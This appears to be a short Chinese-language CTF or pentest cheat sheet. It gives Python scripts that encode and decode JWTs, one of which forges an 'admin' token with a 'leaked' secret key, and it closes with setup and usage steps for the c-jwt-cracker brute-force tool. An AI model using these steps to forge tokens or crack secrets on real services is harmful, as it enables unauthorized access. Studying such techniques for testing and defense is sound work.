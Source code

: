 ### jwt编码与解码脚本

编码--->

```python
import jwt

# 泄露的密钥
secret_key = "1Kun"

# 载荷数据
payload = {
    "username": "admin"
}

# 生成JWT
new_token = jwt.encode(payload, secret_key, algorithm="HS256")
print("新生成的JWT:", new_token)
```

解码--->

```python
import jwt

# JWT密钥
secret_key = ""

# JWT令牌
jwt_token = ""

try:
    # 解密JWT
    decoded_payload = jwt.decode(jwt_token, secret_key, algorithms=["HS256"])
    print("解密后的载荷:", decoded_payload)
except jwt.ExpiredSignatureError:
    print("JWT已过期")
except jwt.InvalidTokenError:
    print("无效的JWT")
```



`c-jwt-cracker`工具

> A multi-threaded JWT brute-force cracker written in C. If you are very lucky or have a huge computing power, this program should find the secret key of a JWT token, allowing you to forge valid tokens. This is for testing purposes only, do not put yourself in trouble :)

```python
git clone https://github.com/brendan-rius/c-jwt-cracker.git
sudo apt install gcc
sudo apt install make
#确保你已经安装openssl
sudo apt-get update
sudo apt-get install libssl-dev

make


#使用
./jwtcrack token
```
